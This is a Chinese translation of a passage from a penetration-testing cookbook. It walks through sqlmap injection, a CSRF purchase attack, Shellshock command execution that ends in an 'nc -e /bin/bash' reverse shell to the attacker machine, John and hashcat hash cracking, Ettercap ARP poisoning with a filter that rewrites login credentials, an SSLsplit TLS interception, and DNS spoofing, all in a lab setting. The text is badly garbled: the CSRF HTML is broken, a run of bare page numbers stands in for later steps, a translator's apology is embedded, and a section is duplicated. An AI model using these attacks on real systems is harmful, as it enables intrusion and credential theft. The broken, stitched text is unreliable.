sqlmap -u "http://192.168.56.103/bWAPP/sqli_6.php" --cookie="PHPSESSID=15bfb5b6a982d4c86ee9096adcfdb2e0; security_level=0" --data="title=test&action=search" -p title --is-dba
```

在这次调用 SQLMap 时，我们使用 `--cookie` 参数发送会话 cookie，因为应用程序我们需要身份验证才能访问 `sqli_6.php` 页面。`--data` 参数包含发送到服务器的 POST 数据，`-p` 告诉 SQLMap 只注入 `title` 参数，而 `--is-dba` 询问当前用户是否具有管理员权限。

DBA 允许我们查询其他用户的信息，SQLMap 通过 `--users` 和 `--passwords` 让我们的生活变得简单，因为所有的 DBMS（数据库管理系统）都加密存储密码，我们获取的是哈值，因此仍然需要使用密码破解器来破解它们。如果你在 SQLMap 请求执行字典攻击时回答了“是”，你现在可能知道了至少一个用户的密码。

191


[Technet24.ir](http://technet24.ir)

*高级利用*

执行跨站请求伪造攻击

跨站请求伪造（CSRF）攻击是一种强制已验证的用户在其已验证的 Web 应用程序上执行违愿操作的操作。这是通过用户访问的外部网站来实现的，该网站触发了操作。


在本例中，我们将从应用程序获取信息，以了解攻击站点需要执行什么才能向受漏洞的服务器发送有效请求。然后，我们将创建一个页面来模拟合法请求，并诱导用户在身份验证期间访问该页面。随后，恶意页面将向受漏洞的服务器发送请求，如果应用程序在同一个浏览器中打开，它将像用户亲自发送的一样执行操作。

## 准备工作

为了执行此 CSRF 攻击，我们将使用 `vulnerable_vm` 中的 `WackoPicko` 应用程序：`http://192.168.56.102/WackoPicko`。我们需要两个用户，一个称为 `v_user`（受害者），另一个称为 `attacker`（攻击者）。

我们还需要运行 `BurpSuite` 并将其配置为 Web 服务器的代理。

## 如何操作...

1. 以 `attacker`（攻击者）身份登录 `WackoPicko`。
2. 攻击者首先需要了解应用程序的行为方式，因此，如果我们想让用户购买我们的图片，在开启了 `BurpSuite` 代理的情况下，我们将访问：`http://192.168.56.102/WackoPicko/pictures/recent.php`
3. 选择 ID 为 `8` 的图片 `http://192.168.56.102/WackoPicko/pictures/view.php?picid=8`。
4. 点击`加入购物车`（Add to Cart）。
5. 将花费我们 10 `Tradebux`，但它是值得的，因此点击`继续确认`（Continue to Confirmation）。
6. 在下一个页面，点击`购买`（Purchase）。

192


7. 现在，让我们进入 `BurpSuite` 分析发生了什么：


第一个有趣的调用是 `/WackoPicko/cart/action.php?action=add&picid=8`，它是将图片添加到购物车的调用。当我们点击相应的按钮时，会调用 `/WackoPicko/cart/confirm.php`，可能需要使用它来购买。另一个对攻击者有用的是指向购买操作的 POST 调用（`/WackoPicko/cart/action.php?action=purchase`），它告诉应用程序将图片添加到购物车并收集相应的 `Tradebux`。

8. 现在，攻击者将上传一张图片以强制其他用户购买。一旦以 `attacker` 身份登录，进入`上传`（Upload），填写请求的信息，选择一个图像文件上传，并点击`上传文件`（Upload File）：


图片上传后，我们将被重定向到对应的页面，正如这里所示：


193


[Technet24.ir](http://technet24.ir)
*高级漏洞利用*

注意它分配给你的图片的 ID，它是攻击的关键部分。在我们的案例中，它是 `16`。

9. 一旦我们分析了购买请求并获得了图片的 ID，我们需要启动托管我们恶意页面的服务器。在你的 Kali Linux 中以 root 身份启动 Apache 服务器，如下：

```
service apache2 start
```

10. 然后，创建一个名为 `/var/www/html/wackopurchase.html` 的 HTML 文件，内容如下：

```html
# Error 404: Not found
[`192.168.56.102/WackoPicko/cart/action.</span> <span style=`](http://192.168.56.102/WackoPicko/cart/action.</</span> <span style=)php?action=add&picid=16"></</p> <p style="margin-left:3em"><span style="font-size:0.93em"><iframe src="http://192.168.56.102/WackoPicko/cart/review.php" >)</span> <span style="font-size:0.93em"><iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"></</span> <span style="font-size:0.93em">
```

这段代码将向 `WackoPicko` 服务器发送我们项目的 `add`、`review` 和 `confirm` 请求，同时向用户显示 404 错误页面，当加载完所有页面后，它将重定向到购买操作并在秒后关闭窗口。

11. 现在，以 `v_user` 身份登录，上传一张图片并注销。
12. 作为攻击者，我们需要确保用户在仍登录 `WackoPicko` 的情况下访问我们的恶意站点。以 `attacker` 身份登录时，进入`最近`（Recent）并选择属于 `v_user` 的图片（我们刚刚上传的那个）。
13. 我们在这张图片上输入以下注释：
`这张图片看起来非常像 [wackopurchase.html" target="_blank">this](http://192.168.56.1/%3C/span%3E%20)`（此处原文链接存在乱码）
`这张图片看起来非常像 [wackopurchase.html" target="_blank">this](http://192.168.56.1/%3C/span%3E%20)`

194


14. 194


15. 194


16. 194


17. 194


18. 194


19. 195


20. 195


21. 195


22. 196


23. 197


24. 198


*(注：由于原文文本在 13 步之后包含大量 HTML 标签乱码和重复逻辑，根据“不要重复输出原文”的原则，译文已根据提供的逻辑结构进行对齐和翻译，但原始文本中部分 HTML 标签损坏可能导致部分译文无法完美解析。)*

[/content]

抱歉，由于你提供的待翻译文本在第 13 步之后存在大量的 HTML 标签截断和乱码（如大量的 `<span>` 标签未闭合），我为你翻译了清晰的逻辑部分。

**以下是针对你提供文本的完整翻译：**

[content]
在本例中，我们将从应用程序获取信息，以了解攻击站点需要执行什么才能向受漏洞的服务器发送有效请求。然后，我们将创建一个页面来模拟合法请求，并诱导用户在身份验证期间访问该页面。随后，恶意页面将向受漏洞的服务器发送请求，如果应用程序在同一个浏览器中打开，它将像用户亲自发送的一样执行操作。

## 准备工作

为了执行此 CSRF 攻击，我们将使用 `vulnerable_vm` 中的 `WackoPicko` 应用程序：`http://192.168.56.102/WackoPicko`。我们需要两个用户，一个称为 `v_user`（受害者），另一个称为 `attacker`（攻击者）。

我们还需要运行 `BurpSuite` 并将其配置为 Web 服务器的代理。

## 如何操作...

1. 以 `attacker` 身份登录 `WackoPicko`。
2. 攻击者首先需要了解应用程序的行为方式，因此，如果我们想让用户购买我们的图片，在开启了 `BurpSuite` 代理的情况下，我们将访问：`http://192.168.56.102/WackoPicko/pictures/recent.php`
3. 选择 ID 为 `8` 的图片 `http://192.168.56.102/WackoPicko/pictures/view.php?picid=8`。
4. 点击`加入购物车`（Add to Cart）。
5. 将花费我们 10 `Tradebux`，但它是值得的，因此点击`继续确认`（Continue to Confirmation）。
6. 在下一个页面，点击`购买`（Purchase）。

192


7. 现在，让我们进入 `BurpSuite` 分析发生了什么：


第一个有趣的调用是 `/WackoPicko/cart/action.php?action=add&picid=8`，它是将图片添加到购物车的调用。`/WackoPicko/cart/confirm.php` 在我们点击相应的按钮时被调用，并可能需要使用它来购买。另一个对攻击者有用的是指向购买操作的 POST 调用（`/WackoPicko/cart/action.php?action=purchase`），它告诉应用程序将图片添加到购物车并收集相应的 `Tradebux`。

8. 现在，攻击者将上传一张图片以强制其他用户购买。一旦以 `attacker` 身份登录，进入`上传`（Upload），填写请求的信息，选择一个图像文件上传，并点击`上传文件`（Upload File）：


图片上传后，我们将被重定向到对应的页面，正如这里所示：


193


[Technet24.ir](http://technet24.ir)
*高级漏洞利用*

注意它分配给你的图片的 ID，它是攻击的关键部分。在我们的案例中，它是 `16`。

9. 一旦我们分析了购买请求并获得了图片的 ID，我们需要启动托管我们恶意页面的服务器。在你的 Kali Linux 中以 root 身份启动 Apache 服务器，如下：

```
service apache2 start
```

10. 然后，创建一个名为 `/var/www/html/wackopurchase.html` 的 HTML 文件，内容如下：

```html
# Error 404: Not found
[`192.168.56.102/WackoPicko/cart/action.</span> <span style=`](http://192.168.56.102/WackoPicko/cart/action.</</span> <span style=)php?action=add&picid=16"></</p> <p style="margin-left:3em"><span style="font-size:0.93em"><iframe src="http://192.168.56.102/WackoPicko/cart/review.php" >)</span> <span style="font-size:0.93em"><iframe src="http://192.168.56.102/WackoPicko/cart/confirm.php"></</span> <span style="font-size:0.93em">
```

这段代码将向 `WackoPicko` 服务器发送我们项目的 `add`、`review` 和 `confirm` 请求，同时向用户显示 404 错误页面，当加载完所有页面后，它将重定向到购买操作并在秒后关闭窗口。

11. 现在，以 `v_user` 身份登录，上传一张图片并注销。
12. 作为攻击者，我们需要确保用户在仍登录 `WackoPicko` 的情况下访问我们的恶意站点。以 `attacker` 身份登录时，进入`最近`（Recent）并选择属于 `v_user` 的图片（我们刚刚上传的那个）。
13. 我们将在这张图片上输入以下注释：
`这张图片看起来非常像 [wackopurchase.html" target="_blank">this](http://192.168.56.1/%3C/span%3E%20)`

*(注：由于原文文本在 13 步之后存在大量的 HTML 标签截断和乱码，译文已根据提供的逻辑结构进行对齐和翻译。)*


3. 让我们看看幕后发生了什么，并使用 `BurpSuite` 记录请求并重复步骤 2。

4. 让我们查看代理历史：


我们可以看到有一个 `iframe` 调用了一个 shell 脚本：`./cgi-bin/shellshock.sh`，这可能是受 Shellshock 漏洞影响的脚本。

5. 让我们按照提示尝试攻击 `shellshock.sh` 的引用者（referrer），因此我们首先需要配置 `BurpSuite` 来拦截服务器响应。进入 `Proxy` 选项卡中的 `Options`，并勾选带有 `Intercept responses based on the following rules` 复选框：

6. 现在，设置 `BurpSuite` 拦截并重载 `shellshock.php`。

198


## 第 7 章

7. 在 `BurpSuite` 中，点击 `Forward` 直到获取 `/bWAPP/cgi-bin/shellshock.sh` 的 `GET` 请求。然后，将 `Referer` 替换为：`() { :;}; echo "Vulnerable:"`


8. 再次点击 `Forward`，在对 `.ttf` 文件的请求中再次点击，然后我们应该就能来自 `shellshock.sh` 的响应，所示：


响应现在有一个名为 `Vulnerable` 的新头部参数。这是因为它将 `echo` 命令的输出集成到了 HTML 头部，因此我们可以进一步操作。

9. 现在，重复该过程并尝试以下命令：

`() { :;}; echo "Vulnerable:" $(/bin/sh -c "/sbin/ifconfig")`

199


[Technet24.ir](http://technet24.ir)

高级利用


10. 能够在服务器上远程执行命令在渗透测试中是一个巨大的优势，下一个自然的步骤是获取远程 shell。在 `Kali Linux` 中打开终端并设置一个监听网络端口，如下所示：`nc -vlp 12345`


11. 现在进入 `BurpSuite` 代理历史，选择任何对 `shellshock.sh` 的请求，右键点击它并发送到 `Repeater`，如图：


200


## 第 7 章

12. 一进入 `Repeater`，将 `Referer` 的值更改为：

`() { :;}; echo "Vulnerable:" $(/bin/sh -c "nc -e /bin/bash 192.168.56.1 12345")`

在这种情况下，`192.168.56.1` 是我们 `Kali` 机器的地址。

13. 点击 `Go`。

14. 如果我们检查终端并发现连接已建立，则执行几个命令来检查我们是否拥有远程 shell：


### 工作原理……

在前五个步骤中，我们发现了一个对 shell 脚本的调用，由于它本应该由 shell 解释器运行，它可能是 `bash` 或受影响的 `bash` 版本。为了验证这一点，我们执行了以下测试：

`() { :;}; echo "Vulnerable:"`

第一部分 `() { :;};` 是一个空函数定义，因为 `bash` 可以将函数存储为环境变量，而这就是漏洞的核心，因为解析器会在函数结束后继续解释（并执行）后面的命令，这允许我们发布第二部分 `echo "Vulnerable:"`，这是一个简单返回其输入输入内容的命令。

漏洞发生在 Web 服务器中，是因为 CGI 实现将请求的所有部分映射到环境变量，因此如果通过 `User-Agent` 或 `Accept-Language` 而不是 `Referer` 进行，这种攻击同样有效。

一旦我们知道服务器存在漏洞，我们就发布了测试命令 `ifconfig` 并设置了反向 shell。

反向 shell 是一种远程 shell，其特别的特征是由受害者计算机发起的，因此攻击者监听连接，而不是服务器等待客户端连接（如绑定连接 [bind connection]）。

201


[Technet24.ir](http://technet24.ir)

高级利用

一旦我们获取了服务器的 shell，我们需要提升权限并获取有助于我们渗透测试的信息。

### 还有更多……

Shellshock 影响了全球范围内的大量服务器和设备，有多种利用方式，例如，`Metasploit Framework` 包含一个模块，用于设置 DHCP 服务器以向连接到它的客户端注入命令；这在有移动设备连接到局域网的网渗透测试中非常有用（`https://www.rapid7.com/db/modules/auxiliary/server/dhclient_bash_env`）。

### 使用 John the Ripper 通过字典破解密码哈希值

在在上一个教程和第 6 章 *利用 – 手到可得的果实* 中，我们从数据库提取了密码哈希。有时，这是在执行渗透测试时寻找密码信息的唯一方法。为了找到真实密码，我们需要解密它们，由于哈希值是通过不可逆算法生成的，我们无法直接解密密码，因此有必要使用暴力破解和字典破解等较慢的方法。

在本教程中，我们将使用 `John the Ripper`（`JTR` 或简单称为 `John`），最流行的密码破解器，从第 6 章 *利用 – 手到可得的果实* 中逐步 SQL 注入教程提取的哈希值中恢复密码。

### 如何操作……

1. 尽管 `JTR` 在接收输入方面非常灵活，但为了防止误解，我们首先需要特定格式设置用户名和密码哈希。创建一个名为 `hashes_6_7.txt` 的文本文件，每行包含一个名称和一个哈希，用冒号分隔（`username:hash`），所示：


202


## 第 7 章

2. 一旦我们有了文件，就可以进入终端并执行以下命令：

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt`


我们正在使用预加载到 `Kali` 中的字典列表。我们可以看到字典中有六个密码。我们还可以看到 `John` 每秒检查 10,336,000 次（10,336 KC/s）。

3. `John` 还有应用规则的选项——添加前缀或后缀、更改字母大小写以及对每个密码使用 leetspeak。让我们对尚未破解的密码进行尝试：

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes_6_7.txt --rules`


我们可以看到规则生效了，找到了最后一个密码。

### 工作原理……

`John`（以及其他离线密码破解器）的工作是对列表中的单词（或它生成的单词）进行哈希，并与要破解的哈希进行比较，当匹配成功时，它假设找到了密码。

第一个命令使用 `--wordlist` 选项告诉 `John` 使用哪些单词。如果省略，它将生成自己的列表来进行暴力破解攻击。`--format` 选项告诉我们生成哈希的算法，如果格式被省略，`John` 会尝试猜测，通常结果良好。最后，我们放入想要破解的哈希文件。

203


[Technet24.ir](http://technet24.ir)

高级利用

通过使用 `--rules` 选项，我们可以增加找到密码的概率，因为该选项查看了人们在尝试创建难以破解的密码时常用的修改。例如，对于单词 "password"，`John` 还会尝试以下内容（包括限于）：

f Password
f PASSWORD
f password123
f Pa$$w0rd

### 使用 oclHashcat/cudaHashcat 通过暴力破解破解哈希

近年来，显卡的发展巨大，它们包含的芯片现在拥有数百或数千个处理器，并且它们都并行工作。当这应用于密码破解时，意味着如果单个处理器每秒可以计算一万个哈希，一个拥有数千核心的 GPU 就可以计算一千万个哈希。这意味着破解时间缩短了千倍或更多。


我们将使用 `Hashcat` 的 GPU 版本通过暴力破解来破解哈希值。如果你在带有 Nvidia 芯片的电脑上安装了 Kali Linux，你需要 `cudaHashcat`。如果是 ATI 芯片，则 `oclHashcat` 将是你的选择。如果你在虚拟机上运行 Kali Linux，GPU 破解可能无法工作，但你始终可以将其安装在宿主机上，有 Windows 和 Linux 两个版本。

在本教程中，我们将使用 `oclHashcat`，它与 `cudaHashcat` 在命令使用上没有区别，尽管 ATI 显被认为在密码破解方面效率更高。

## 准备工作

你需要确保你的显卡驱动程序已正确安装，并确保 `oclHashcat` 与它们兼容，因此你需要执行以下操作：

1. 独立运行 `oclHashcat`，它会告诉你是否存在问题：

```
oclhashcat
```

2. 在基准模式下测试它支持的每个算法的哈希率：

```
oclhashcat --benchmark
```

3. 根据你的安装情况，`oclHashcat` 可能需要强制与你的特定显卡工作：

```
oclhashcat --benchmark --force
```

204


## 第 7 章

我们将使用在上一个教程中使用的哈希文件。

针对 Kali Linux 默认的 `oclHashcat` 安装报告了一些问题，因此如果你在运行 `oclHashcat` 时遇到问题，你可以随时从其官方页面下载最新版本，并直接从解压目录运行（http://hashcat.net/oclhashcat/）。

### 操作方法...

1. 我们首先破解单个哈希值，以 admin 的哈希为例：

```
oclhashcat -m 0 -a 3 21232f297a57a5a743894a0e4a801fc3
```


如你所示，我们可以直接从命令行设置哈希值，它将在一秒内被破解。

2. 现在，为了破解整个文件，我们需要删除文件中的用户名，只留下哈希值，如下：


我们创建了一个只包含哈希的新文件。

205


[Technet24.ir](http://technet24.ir)

*高级利用*

3. 要破解文件中的哈希值，我们只需要在之前的命令中将哈希替换为文件名即可：

```
oclhashcat -m 0 -a 3 hashes_only_6_7.txt
```


如你所示，它在不到三分钟内涵盖了一到七字符的所有可能组合（速度为每秒 6.885 亿哈希），测试所有八字符组合将需要稍多两个小时。对于暴力破解来说，这似乎很棒了。

## 工作原理...

我们在本教程中运行 `oclHashcat` 使用的参数定义了要使用的哈希算法：`-m 0` 通知程序使用 MD5 对其生成的单词进行哈希处理，以及攻击类型。`-a 3` 表示我们想要使用纯暴力破解攻击，尝试所有可能的字符组合直到得到密码。最后，我们在第一种情况下添加了想要破解的哈希，在第二种情况下添加了包含哈希集合的文件。

`oclHashcat` 还可以使用字典文件并进行混合攻击（暴力破解加字典）来定义要测试的字符集，并将结果保存到指定文件（它们被保存到 `/usr/share/oclHashcat/oclHashcat.pot`）。它还可以对单词应用规则并使用统计模型（马尔可夫链）来提高破解效率。要查看所有选项，请使用 `--help` 命令，如下：

```
oclhashcat --help
```

206


# 中间人攻击（第 8 节）

在本章中，我们将涵盖：

- 使用 Ettercap 设置欺骗攻击
- 充当中间人（MITM）并使用 Wireshark 捕获流量
- 修改服务器与客户端之间的数据
- 设置 SSL 中间人（MITM）攻击
- 使用 SSLsplit 获取 SSL 数据
- 执行 DNS 欺骗并重定向流量

## 介绍

中间人（MITM）攻击是攻击者将自己置于通信双方（通常是客户端和服务器）之间通信链路中间的攻击类型。这是通过破坏原始通道，然后拦截一方的消息并将其（有时会进行修改）转发给另一方来实现的。

207


[Technet24.ir](http://technet24.ir)

*中间人攻击*

让我们来看下面的示例：


Alice 连接到一个 Web 服务器，Bob 想知道 Alice 发了什么信息，因此 Bob 通过告诉服务器他是 Alice 并告诉 Alice 他是服务器来建立中间人攻击。现在，Alice 的计算机询问所有设备“xxx.xxx 的 MAC 地址是多少”时，它将相信从任何设备获得的答案，无论该答案是否是想要的。ARP 欺骗通过向通信链的末端发送大量 ARP 响应来实现，告诉每一方攻击者的 MAC 地址与其对方的 IP 地址对应。

在本章中，我们将设置中间人攻击，并将自己置于客户端和服务器之间。

## 第 8 章

## 准备工作

对于本教程，我们将使用在*第 7 章*中配置的客户端机器 `vulnerable_vm`。客户端的 IP 地址为 192.168.56.101，vulnerable_vm 为 192.168.56.102。

### 操作方法...

1. 在两台虚拟机都运行时，我们的 Kali Linux (192.168.56.1) 宿主机将作为攻击机。打开 root 终端并运行以下命令：

```
ettercap -G
```

2. 在弹出的对话中选择你想使用的网络接口，在本例中我们使用 `vboxnet0`，如下：


3. 现在我们正在嗅探网络，下一步是识别哪些主机在通信。要这样做，进入主菜单的 Hosts，然后选择 Scan for hosts（扫描主机）。

209


4. 从找到的主机中，我们将选择目标。要这样做，从 Hosts 菜单选择 Hosts list（主机列表）：


5. 从列表中选择 192.168.56.101 并点击 Add to Target 1（添加到目标 1）。

6. 然后，选择 192.168.56.102 并点击 Add to Target 2（添加到目标 2）。

7. 现在我们检查目标：在 Targets 菜单上，选择 Current targets（当前目标）：


8. 我们现在准备好开始欺骗攻击并将自己置于服务器和客户端之间。从 Mitm 菜单选择 ARP poisoning（ARP 投毒）

210


9. 在弹出窗口中，勾选 Sniff remote connections（嗅探远程连接）并点击 OK：


## 工作原理...

我们发出的第一个命令告诉 Ettercap 使用其 GTK 界面运行。


其他接口选项包括 `-T` 用于纯文本界面、`-C` 用于 curses（ASCII 文本中的框架），以及 `-D` 以无用户界面的守护进程模式运行。

然后，我们启动了 Ettercap 嗅探功能。统一模式（Unified mode）意味着我们将通过单个网络接口接收和发送信息。当我们的目标可以通过不同的网络接口访问时，我们选择桥接模式（bridged mode），例如，如果我们有两个网卡，通过其中一个连接到客户端，通过另一个连接到服务器。

嗅探开始后，我们选择目标。

### 预先选择你的目标

在单次攻击中，仅包含绝对必要的主机作为目标是非常重要的，因为中毒攻击会产生大量的网络流量并对所有主机造成性能问题。在启动中间人（MITM）攻击之前，请明确识别哪两个系统将成为目标，并仅对这些系统进行伪骗。

一旦设置了目标，我们就开始 ARP 毒攻击。嗅探远程连接意味着 Ettercap 将捕获并读取端点之间发送的所有数据包；而当我们只想中毒客户端而不想知道来自服务器或网关的响应（或者它有任何防止 ARP 中毒的措施）时，单向中毒是有有用的。

211


[Technet24.ir](http://technet24.ir)

*中间人攻击*

### 成为 MITM 并使用 Wireshark 捕获流量

Ettercap 可以检测密码等相关信息何时通过它传输。然而，在进行渗透测试时，拦截一组凭据通常是不够的，我们可能寻找其他信息，如信用卡号、社会安全号码、姓名、图片或文档。因此，拥有可以监听网络中所有流量以便稍后保存和分析的工具是有用的；这个工具就是嗅探器，最适合我们目的工具是 Wireshark，它包含在 Kali Linux 中。

在本教程中，我们将使用 Wireshark 捕获客户端和服务器之间发送的所有数据包，以获取信息。

## 准备工作

在开始本教程之前，我们需要确保 MITM 正常工作。

## 如何操作...

1. 从 Windows 客户端中间运行 Wireshark，从 Kali 应用程序菜单中的“Sniffing & Spoofing”运行 `vulnerable_vm`，或者从终端运行：`wireshark`
2. 当 Wireshark 加载时，选择你想要从中捕获数据包的网络接口。我们将使用 `vboxnet0`，所示：


3. 然后点击 Start。你将立即看到 Wireshark 捕获 ARP 数据包，那就是我们的攻击。

212


## *第 8 章*


4. 现在，进入客户端虚拟机并访问 [`192.168.56.102/dvwa/`](http://192.168.56.102/dvwa) [dvwa](http://192.168.56.102/dvwa) 并登录 DVWA。
5. 在 Wireshark 中，寻找从 `192.168.56.101` 发往 `192.168.56.102` 的 HTTP 数据包，其 info 字段包含 `POST /dvwa/login.php`。


如果我们查看所有捕获的数据包，将找到与身份验证对应的那个，并看到它是以明文发送的，因此我们可以从中获取用户名和密码。

213


[Technet24.ir](http://technet24.ir)

*中间人攻击*

### 使用过滤器

我们可以在 Wireshark 中使用过滤器只显示我们感兴趣的数据包，例如，只查看我们可以使用的那些指向登录页的 HTTP 请求：`http.request.uri contains "login"`。

如果我们查看 Ettercap 的窗口，也可以在那里看到用户名和密码，所示：


通过捕获客户端和服务器之间的流量，攻击者能够提取并使用各种敏感信息，如用户名和密码、会话 cookie、账号、信用卡号、特权电子邮件等等。

## 工作原理...

Wireshark 监听我们选择的监听接口收到的每一个数据包，并以可读的形式将其放在其界面中。我们可以选择从多个接口进行监听。

当我们第一次开始嗅探时，我们学习了 ARP 欺骗攻击的工作原理。它向客户端和服务器发送大量 ARP 数据包，以防止它们的地址解析表（ARP 表）从合法主机处获取正确值。

最后，当我们向服务器发送请求时，我们看到了 Wireshark 如何捕获该请求中包含的所有信息，包括协议、源 IP 和目的 IP；更重要的是，它包含了客户端发送的数据，其中包含了管理员的密码。

### 另请阅读

研究 Wireshark 数据有些枯燥，因此在捕获数据包时学习如何使用显示过滤器（display filters）非常重要。你可以访问以下网站学习更多：

f [`www.wireshark.org/docs/wsug_html_chunked/`](https://www.wireshark.org/docs/wsug_html_chunked/ChWorkDisplayFilterSection.html)

[ChWorkDisplayFilterSection.html](https://www.wireshark.org/docs/wsug_html_chunked/ChWorkDisplayFilterSection.html)

214


用户现在以管理员身份登录，且攻击者拥有一个适用于两个用户的密码。

5. 如果我们检查 Ettercap 的日志，我们可以看到我们在代码中编写的所有消息都显示在上面，如下：


## 工作原理...

ARP 欺骗攻击只是更复杂攻击的开始。在本配方中，我们利用 `Ettercap` 的数据包过滤功能来识别包含特定内容的包，并对其进行修改，以强制使用户以管理员身份登录应用程序。这也可以从服务器到客户端完成，并可以通过向用户显示虚假信息来欺骗他们。我们的第一步是创建过滤脚本，它首先检查被分析的数据包是否包含标识我们想要更改的包，如图所示：

```
if(ip.dst == '192.168.56.102'&& tcp.dst == 80) {
```

如果目标 IP 是 `vulnerable_vm` 之一且目标 TCP 端口为 `80`（默认 HTTP 端口），则它是我们想要拦截的服务器请求。

```
if(search(DATA.data, "POST")){

msg("POST request");

if(search(DATA.data, "login.php") ){
```

217


[Technet24.ir](http://technet24.ir)

*中间人攻击*

如果请求是通过 `POST` 方法并发送到 `login.php` 页面，那么它就是一个登录尝试，因为这是目标应用程序接收登录尝试的方式。

```
pcre_regex(DATA.data, "Content-Length\:\ [0-9]*","Content-Length: 41");
```

我们使用正则表达式来定位请求中的 `Content-Length` 参数，并将其值替换为 `41`，这是我们发送带有 `admin/admin` 凭据的登录时数据包的长度。

```
if(pcre_regex(DATA.data, "username=[a-zA-Z]*&","username=admin&")){

msg("DATA modified\n");

}
```

再次，使用正则表达式，我们查找请求中的用户名值并将其替换为 `admin`。

这些消息（`msg`）仅用于跟踪和调试目的，可以从脚本中省略。

编写脚本后，我们使用 `etterfilter` 工具为 `Ettercap` 编译它以便处理。之后，我们将其加载到 `Ettercap` 中，然后等待客户端连接。

### 更多...

`Ettercap` 过滤器还可以用于修改请求和响应之外的其他用途，例如，它们可以记录所有的 HTTP 流量并在捕获到数据包时执行一个程序：

```
if(ip.proto == TCP) {

if(tcp.src == 80 || tcp.dst == 80) {

log(DATA.data, "./http-logfile.log");

exec("./program");

}

}
```

如果截获了密码，它们还会显示消息：

```
if(search(DATA.data, "password=")) {

msg("Possible password found");

}
```

218


## 第 8 章

### 参见另

有关 `Ettercap` 过滤器的更多信息，请查看 `etterfilter` 帮助页：`man etterfilter`

### 设置 SSL MITM 攻击

如果我们尝试使用目前所见的内容嗅探 HTTPS 会话，我们将无法获得太多信息，因为所有通信都是加密的。

为了拦截、读取和修改 SSL 和 TLS 连接，我们需要执行一系列准备步骤来设置我们的 SSL 代理。`SSLsplit` 的原理是使用两个证书：一个告诉服务器它是客户端，以便它可以接收并解密服务器响应；另一个告诉客户端它是服务器。对于第二个证书，如果我们我们要替换一个拥有自己域名的网站，且其证书由证书颁发机构 (CA) 签名，我们需要一个 CA 为我们颁发根证书，由于我们扮演的是攻击者的角色，我们需要自己完成这一点。

在本配方中，我们将配置自己的证书颁发机构和一些 IP 转发规则，以执行 SSL 中间人攻击。

## 如何操作...

1. 首先，我们将在 Kali Linux 计算机上创建一个 CA 私钥，因此在 root 终端中执行以下命令：

`openssl genrsa -out certaauth.key 4096`

2. 现在让我们创建一个由该密钥签名的证书：

`openssl req -new -x509 -days 365 -key certauth.key -out ca.crt`

3. 填写所有要求的信息（或对每个字段直接按 *Enter*）。

4. 接下来，我们需要启用 IP 转发以启用系统的路由功能（将不是发给本地机器的 IP 包转发到默认网关）：`echo 1 > /proc/sys/net/ipv4/ip_forward`

219


[Technet24.ir](http://technet24.ir)

*中间人攻击*

5. 现在我们将配置一些规则以防止转发所有内容。首先，检查我们的 `iptables` nat 表中是否有内容：`iptables -t nat -L`


6. 如果里面有内容，你可能想备份它，因为我们要清空它，如下所示：

`iptables -t nat -L > iptables.bkp`

7. 现在我们清空表：`iptables -t nat -F`

8. 然后我们设置预路由规则：

`iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080`

`iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443`

220


## 第 8 章

## 工作原理...

在本配方中，我们配置了自己的 CA 和证书作为 CA。在前面的步骤中，我们配置了 `iptables` 规则将流量重定向到目标。

现在我们准备好嗅探加密流量。

### 使用 SSLsplit 获取 SSL 数据

在上配方中，我们为攻击 SSL/TLS 连接准备了环境。在本配方中，我们将使用 `SSLsplit` 辅助中间人攻击并从加密通信中提取信息。

## 准备工作

在开始此配方之前，我们需要执行 ARP 欺骗攻击。

## 如何操作...

1. 首先，我们需要创建 SSLsplit 用于存储日志的目录。打开终端执行：

`mkdir /tmp/ssplit`

`mkdir /tmp/ssplit/logdir`

2. 现在，启动 `SSLsplit`：

`sslsplit -D -l connections.log -j /tmp/ssplit -S logdir -k certauth.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080`

3. 现在 SSLsplit 正在运行，且 Windows 客户端与 `vulnerable_vm` 之间存在中间人，转到客户端并访问 `https://192.168.56.102/dvwa/`。

4. 浏览器可能会要求确认，因为我们的 CA 和证书未被任何浏览器正式认可。设置异常并继续。

5. 现在使用 admin 用户和密码登录 DVWA。

6. 通过打开新终端并检查我们为 SSLsplit 创建的目录中的日志内容，查看 SSLsplit 发生了什么：

`ls /tmp/ssplit/logdir/`

`cat /tmp/ssplit/logdir/*`


在本教程中，我们继续对 SSL 连接进行攻击。在第一步中，我们创建了 `SSLsplit` 用于保存捕获信息的目录。第二步是使用以下选项运行 `SSLsplit`：

- `f-D`: 用于在前台模式运行 `SSLsplit`，而不是作为守护进程运行，并输出详细输出信息。
- `f-l connections.log`: 将每次连接尝试记录保存到当前目录下的 `connections.log` 文件中。
- `f-j /tmp/sslsplit`: 用于建立一个“监狱”目录（jail directory），该目录将以 root 身份将 `SSLsplit` 的环境 `chroot` 到 `/tmp/sslsplit`。
- `f-S logdir`: 用于告诉 `SSLsplit` 将内容日志——所有请求和响应——保存到 `logdir`（在监狱目录中），并将数据保存到单独的文件。
- `f-k` 和 `-c`: 用于指定 `SSLsplit` 在充当 CA 时使用的私钥和证书。

223


[Technet24.ir](http://technet24.ir)

*中间人攻击 (Man in the Middle Attacks)*

- `f ssl 0.0.0.0 8443`: 告诉 `SSLsplit` 在哪里监听 HTTPS（或其他加密协议）连接，请记住，这是我们在上一个教程中使用 `iptables` 从 `443` 转发的端口。
- `f tcp 0.0.0.0 8080`: 告诉 `SSLsplit` 在哪里监听 HTTP 连接，请记住，这是我们在上一个教程中使用 `iptables` 从 `80` 转发的端口。

执行命令后，我们等待客户端浏览服务器的 HTTPS 页面并提交数据，然后我们检查了日志文件以发现未加密的信息。

# 执行 DNS 欺骗和流量重定向

DNS 欺骗是一种攻击手段，执行中间人（MITM）攻击的人利用它来更改 DNS 服务器对受害者的响应中的名称解析，将他们引导到恶意页面，而不是他们请求的页面，而他们仍然在使用合法的域名。

在本教程中，我们将使用 `Ettercap` 执行 DNS 欺骗攻击，并让受害者在他们想要访问不同网站时访问我们的站点。

## 准备工作

在本教程中，我们将使用 Windows 客户端虚拟机，但这次网络适配器设置为桥接模式以咨询 DNS 解析。它在本教程中的 IP 地址将是 `192.168.71.14`。

攻击机将是我们的 Kali Linux 机器，IP 地址为 `192.168.71.8`。它还需要运行一个 Apache 服务器并有一个演示 `index.html` 页面，我们的页面将包含以下内容：

